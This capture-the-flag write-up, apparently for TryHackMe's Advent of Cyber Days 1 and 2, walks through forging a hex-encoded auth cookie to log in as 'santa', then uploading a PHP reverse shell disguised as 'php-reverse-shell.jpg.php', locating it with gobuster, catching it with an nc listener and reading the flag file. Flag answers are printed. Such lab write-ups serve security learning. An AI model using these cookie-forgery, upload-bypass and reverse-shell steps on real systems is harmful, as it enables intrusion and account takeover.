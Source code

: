 # Day 1
* We can go onto the website and regsiter/login.
* Once we do that, viewing the cookies shows us a hexidecimal value named "auth"
* We can decode that with `echo <hex_string> | xxd -r -p`
* We want to log in to "santa", so let's switch our user for that with the following command:
* `echo <hex_string> | xxd -r -p | sed s/<your_username>/santa/g | xxd -p`
* Once we replace the value of the previous cookie with the new one in the "Applications->Cookies" section on chrome developer tools, we get authenticated as santa and can turn on all the controls
* The flag is `THM{MjY0Yzg5NTJmY2Q1NzM1NjBmZWFhYmQy}` 


# Day 2
* My ID number was `ODIzODI5MTNiYmYw`
	* We can then go to the website and enter that in as a GET parameter:
	* `http://10.10.71.84/?id=ODIzODI5MTNiYmYw`
* There's a place images, so let's try to upload a malicious script - a reverse shell
* I got a php reverse shell [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
        * Make sure you edit your ip to be the one on tun0 and change the port to what you want
```
$ip = '10.6.36.105';  // CHANGE THIS
$port = 1337;       // CHANGE THIS
```
* Uploading the php file doesn't work because the system doesn't allow php extensions
* Looking at the source code shows that the website allows uploads of `.jpeg, .jpg, .png`. Let's try to disguise our script as one of those
	* We can rename the file to `php-reverse-shell.jpg.php`
	* This works because this particular website checks file extensions by splitting on a period and checking the second index
* Now we need to find where the images are stored
	* We can do that with gobuster:
* `gobuster dir -u "http://10.10.71.84/" -w /usr/share/wordlists/dirb/common.txt" -b "200"
	* We include a blacklist for status codes of 200 because the website will return a 200 for any directory you put in
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:                     http://10.10.71.84/
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   200
[+] User Agent:              gobuster/3.0.1
[+] Timeout:                 10s
===============================================================
2020/12/02 19:04:07 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/assets (Status: 301)
/cgi-bin/ (Status: 403)
/noindex (Status: 301)
/uploads (Status: 301)
===============================================================
2020/12/02 19:04:58 Finished
===============================================================
```
* We can see that `/uploads` is a valid directory. Going there on `http://10.10.71.84/uploads/` shows our uploaded shell

* Now we can set up a reverse listener on our machine with `nc -lvnp 1337`
	* Remember to use the same port as the one on the reverse shell script
* To run the script on their server, we can simply click on it
	* We get a shell!
* Now we can `cat /var/www/flag.txt` to get the flag: `THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}`

